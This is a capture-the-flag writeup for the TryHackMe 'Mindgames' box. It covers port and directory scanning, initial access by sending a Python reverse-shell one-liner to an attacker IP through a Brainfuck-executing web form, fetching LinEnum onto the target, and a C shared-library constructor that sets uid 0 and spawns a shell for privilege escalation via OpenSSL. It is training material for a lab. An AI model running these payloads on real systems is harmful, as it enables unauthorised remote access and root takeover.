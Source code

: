 # TryHackMe Mindgames Writeup

Challenge Link: [Mindgames](https://tryhackme.com/room/mindgames)

Mindgames is a hard rated box on TryHackMe. We're tasked with enumerating, gaining initial access, then a somewhat tricky privilege escalation using a Library Load via OpenSSL.

## Recon

There wasn't that much enumeration to do since we only found 2 ports open: 22 running ssh and 80 running a HTTP server from our NMAP scan.

```markdown
# Nmap 7.80 scan initiated Tue Jun 16 23:26:12 2020 as: nmap -sC -sV -o nmap 10.10.91.145
Nmap scan report for 10.10.91.145
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We see that port 80 is open, so I decided to run a GoBuster scan to see if we could find anything. After about 10 minutes of scanning, I figured there were no directories on the site.
```markdown
root@kali:~/THM/mindgames# gobuster dir -u 10.10.91.145 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.91.145
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/17 10:21:52 Starting gobuster
===============================================================
Progress: 19932 / 87665 (22.74%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/06/17 10:29:03 Finished
===============================================================
```

## Initial Shell

Let's go check out the page!
![image]({{0xtaylur.github.io}}/assets/mindgames_page.png)

Hmmm, very intersting. Seems as if the the page decodes the _Brainfuck_ programming language. Let's see what happens when we throw the "Hello, World" section into the textbox.
![image]({{0xtaylur.github.io}}/assets/hello_world.png)

It just prints _"Hello, World"_. Now let's see what happens when we try it with the Fibonacci brainfuck text.
![image]({{0xtaylur.github.io}}/assets/fibonacci.png)

So it seems like it it runs the actual brainfuck progamming language. Let's see if we can try to get a reverse shell with this knowledge. I headed over to the [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and used the python reverse shell code.
```markdown
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

After I changed the default IP in that code block to my tun0 IP.(You can find that out by using the command _ifconfig_ in your terminal).I started a netcat session listening on port 1234. I then headed over to a brainfuck encoder to convert it, let's throw this code into the mindgames site and see if we can get an initial shell.

We successfully get a reverse shell as user: _mindgames_
![image]({{0xtaylur.github.io}}/assets/initial_shell.png)

From here, we can go back one directory and read into _user.txt_
![image]({{0xtaylur.github.io}}/assets/user.png)

## Privilege Escalation

Let's start off with using LinEnum to see if we can look into any interesting files that we can use to start our privilege escalation. On your host machine, change into your directory where you have _LinEnum_ stored. If you do not have LinEnum you can get it [here](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) by using the _wget_ command.

On your host machine, start a SimpleHTTPServer on port 8000 by using this command.
```markdown
python -m SimpleHTTPServer
```

Change into the /tmp directory on your reverse shell, we can use the _wget_ command to put LinEnum.sh on the machine so we can run it.
```markdown
$ wget YOUR_IP:8000/LinEnum.sh
--2020-06-17 15:36:21--  http://YOUR_IP:8000/LinEnum.sh
Connecting to YOUR_IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

     0K .......... .......... .......... .......... .....     100%  106K=0.4s

2020-06-17 15:36:22 (106 KB/s) - ‘LinEnum.sh’ saved [46631/46631]
```

Now let's make it an executable file, by using _chmod +x LinEnum.sh_. Run LinEnum by using "./LinEnum.sh"

After reading through LinEnum we find that _/usr/bin/openssl_ has [POSIX](https://uwsgi-docs.readthedocs.io/en/latest/Capabilities.html) capability.
![image]({{0xtaylur.github.io}}/assets/openssl.png)

After I bit of research I found a library load via OpenSSL using the C programming language. Create a C file named _engine.c_ and put this code block inside of it.
```markdown
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```


